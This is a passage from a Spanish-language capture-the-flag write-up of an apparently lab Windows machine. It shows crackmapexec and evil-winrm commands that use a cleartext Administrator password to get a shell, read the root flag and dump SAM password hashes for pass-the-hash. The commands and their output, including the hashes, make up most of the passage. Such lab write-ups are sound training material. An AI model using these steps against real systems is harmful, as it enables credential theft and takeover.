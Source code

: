 - Vemos también que el usuario esta dentro del grupo `Remote Management Users`.

```bash
➜  content crackmapexec winrm 10.129.116.26 -u 'Administrator' -p '4dD!5}x/re8]FBuZ'
SMB         10.129.116.26   5985   SUPPORTDESK      [*] Windows 10.0 Build 17763 (name:SUPPORTDESK) (domain:SupportDesk)
HTTP        10.129.116.26   5985   SUPPORTDESK      [*] http://10.129.116.26:5985/wsman
WINRM       10.129.116.26   5985   SUPPORTDESK      [+] SupportDesk\Administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
```

## Shell as administrator

- Ahora ya podemos ver la ultima flag.

```bash
➜  content evil-winrm -i 10.129.116.26 -u 'Administrator' -p '4dD!5}x/re8]FBuZ'

Evil-WinRM shell v3.5

Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine

Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion

Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\Administrator\Documents> type C:\Users\Administrator\Desktop\root.txt
5c7ac5f3da79f3018d63e5639785415f
*Evil-WinRM* PS C:\Users\Administrator\Documents>
```

## Dumping SAM hashes

- Aquí tenemos los hashes de algunos usuarios para hacer `pass the hash`.

```bash
➜  content crackmapexec smb 10.129.116.26 -u 'Administrator' -p '4dD!5}x/re8]FBuZ' --sam
SMB         10.129.116.26   445    SUPPORTDESK      [*] Windows 10.0 Build 17763 x64 (name:SUPPORTDESK) (domain:SupportDesk) (signing:False) (SMBv1:False)
SMB         10.129.116.26   445    SUPPORTDESK      [+] SupportDesk\Administrator:4dD!5}x/re8]FBuZ (Pwn3d!)
SMB         10.129.116.26   445    SUPPORTDESK      [+] Dumping SAM hashes
SMB         10.129.116.26   445    SUPPORTDESK      Administrator:500:aad3b435b51404eeaad3b435b51404ee:10f08e9e3787aec843594cfd01f1a6a5:::
SMB         10.129.116.26   445    SUPPORTDESK      Guest:501:aad3b435b51404eeaad3b435b51404ee:d5dd356a1d8a41ceafcd92f3e1795a71:::
SMB         10.129.116.26   445    SUPPORTDESK      DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
SMB         10.129.116.26   445    SUPPORTDESK      WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:83f0f384401e2cb89df6f920af3254c7:::
SMB         10.129.116.26   445    SUPPORTDESK      Hazard:1008:aad3b435b51404eeaad3b435b51404ee:551f5fc818a8c5b65d19be1c977f5326:::
SMB         10.129.116.26   445    SUPPORTDESK      support:1009:aad3b435b51404eeaad3b435b51404ee:04456c45a7adb052b6a315cb64992516:::
SMB         10.129.116.26   445    SUPPORTDESK      Chase:1012:aad3b435b51404eeaad3b435b51404ee:bb2e1bf236b6219cb45811d5f2d55068:::
SMB         10.129.116.26   445    SUPPORTDESK      Jason:1013:aad3b435b51404eeaad3b435b51404ee:10608c8436315acb9c703aa7b2e04750:::
SMB         10.129.116.26   445    SUPPORTDESK      [+] Added 8 SAM hashes to the database
```

